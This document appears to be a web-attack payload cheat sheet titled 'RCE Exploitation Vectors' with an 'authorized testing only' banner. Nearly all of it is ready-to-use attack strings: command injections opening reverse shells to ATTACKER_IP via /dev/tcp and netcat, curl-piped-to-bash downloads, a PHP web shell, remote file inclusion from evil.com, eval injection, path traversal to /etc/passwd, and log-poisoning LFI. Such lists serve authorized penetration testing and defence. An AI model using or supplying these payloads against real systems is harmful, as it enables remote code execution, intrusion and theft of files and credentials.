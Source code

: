 🛡 RCE Exploitation Vectors
_By CybrX1337 – BURPSUITE_

⚠ **Educational / Authorized Testing Only**

---

## 1. Command Injection Payloads

; id

&& whoami

| uname -a

|| ls -la

`whoami`

$(whoami)

; /bin/bash -c "echo hacked > /tmp/hacked.txt"

; /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

&& /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

| nc -e /bin/sh ATTACKER_IP 4444

; nc -e /bin/sh ATTACKER_IP 4444

&& nc -e /bin/sh ATTACKER_IP 4444

; ping -c 5 ATTACKER_IP

| ping -c 5 ATTACKER_IP

&& ping -c 5 ATTACKER_IP

; curl http://ATTACKER_IP/shell.sh | bash

| curl http://ATTACKER_IP/shell.sh | bash

; echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

| cat /etc/passwd

&& cat /etc/passwd

Replace ATTACKER_IP with your own IP for reverse shell commands.

---

## 2. Remote File Inclusion (RFI) Payloads

?page=http://evil.com/shell.txt

?page=http://evil.com/shell.txt?cmd=id

?page=http://evil.com/shell.txt%00

?page=php://filter/convert.base64-encode/resource=http://evil.com/shell.txt

?page=http://evil.com/shell.txt%23

?page=http://evil.com/shell.txt%0a

?page=http://evil.com/shell.txt%0d%0a

?page=http://evil.com/shell.txt%09

?page=\\evil.com\shell.txt

?page=//evil.com/shell.txt

?page=./http://evil.com/shell.txt

?page=php://input

?page=php://input?cmd=id

?page=php://filter/read=convert.base64-encode/resource=http://evil.com/shell.txt

?page=expect://id

?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=

?page=ftp://evil.com/shell.txt

?page=http://evil.com/shell.txt?cmd=ls+-la

?page=http://evil.com/shell.txt?cmd=uname+-a

?page=http://evil.com/shell.txt?cmd=whoami

?page=http://evil.com/shell.txt?cmd=nc+-e+/bin/bash+attacker_ip+port

?page=http://evil.com/shell.txt%00.jpg

---

## 3. Unsafe eval() Injection Payloads

?code=system('id')

?code=exec('whoami')

?code=passthru('ls -la')

?code=assert($_GET[cmd])

---

## 4. Post-upload Execution Triggers

Using .htaccess to treat .jpg as PHP:

AddType application/x-httpd-php .jpg

Overwrite existing script by path traversal:

../../../../var/www/html/shell.php

---

## 5. Path Traversal Payloads (for LFI, File Overwrite, or Upload Bypass)

../../../../../../etc/passwd

../../../var/www/html/shell.php

../../../../../../tmp/shell.php

..%2f..%2f..%2f..%2fetc/passwd

..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts

....//....//....//....//etc/passwd

../../../../../../var/log/apache2/access.log

../../../../../../var/log/nginx/access.log

../../../../../../proc/self/environ

../../../../../../dev/shm/shell.php

../../../../../../tmp/shell.php

../uploads/../../shell.php

---

## 6. Local File Inclusion (LFI) + Log Poisoning Payload Example

Inject into access log or user agent:

<?php system($_GET['cmd']); ?>

Access via LFI:

?page=../../../../var/log/apache2/access.log&cmd=id

---

## 7. File Upload Path Traversal Example

Upload filename:

../../../../var/www/html/shell.php

If the upload function is vulnerable to path traversal, attacker can overwrite web root files.

---

## 8. URL Encoded Variants

..%2f..%2f..%2f..%2fetc/passwd

..%5c..%5c..%5c..%5cwindows\system32\drivers\etc\hosts
